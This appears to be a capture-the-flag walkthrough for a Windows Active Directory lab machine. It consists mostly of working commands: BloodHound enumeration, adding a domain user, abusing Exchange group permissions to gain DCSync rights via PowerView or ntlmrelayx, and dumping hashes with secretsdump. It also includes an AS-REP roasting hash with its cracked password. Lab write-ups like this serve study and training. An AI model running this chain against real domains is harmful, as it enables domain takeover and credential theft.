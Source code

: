 evil-winrm login and run SharpHound.exe
Evaluate graph on BloodHound
net user jj Mango123 /add /domain

. .\PowerView.ps1

&#x3C;To become member of 'Exchange Windows Permissions' group> 
$SecPassword = ConvertTo-SecureString 'Mango123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\jj', $SecPassword)
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members 'jj' <a data-footnote-ref href="#user-content-fn-1">&#x3C;-Credential $Cred></a>
net user jj

&#x3C;For DCSync>
Repeat the first two $ commands again
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity jj -Rights DCSync
OR'
sudo python3 ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user jj
#go to 127.0.0.1 to login and script will elevate us to DCSync

sudo ./secretsdump.py -dc-ip 10.10.10.161 htb.local/jj:Mango123@10.10.10.161
</code></pre>

## Proof

SMB - Anonymous shares

DNS - could not leak host name

Check what services run on the port, we know the standard ones

* 464 is used for a domain controller
* 593, RPC over HTTP

`$krb5asrep$23$svc-alfresco@HTB.LOCAL:ab3ff3e24e603b5400fd42db05fdbf7a$6e84491277d80c48f5aaac0b138e20e550b66212eff1f38ccda67722ebd93140f86e4cde32641e96cbb9ddb48598e0db8538b6d1904c9a7b9adc3c5833cd1038d298b26727144fb14864bb349087ee258e4a35eed62a94edab1b3d3e71236dadf3072f2c67c818fe34ce3491a30dc6e4fb766c941672fa81888bc4cfdd79a5a9486c27428ca309bc8f6d77c20d04a00198a4c09e737aadea2115ca42c8997fd21c2da6ddc11a48beb8178ba9bd91755bb1bd0488b8307313046636af8632e774859e31dd9d42053f465ee7a1543fbce275287f7e641037da3cb2e2dff117f2b40ddc7d8ba9fe`

Crack this with hashcat: s3rvice

WinPEAS found: Access denied No AV was detected!!



Why did we run `net user jj Mango123 /add /domain`

Add user to group 'EXCHANGE WINDOWS PERMISSIONS' and once we are in that group, we can get DCSync privs.
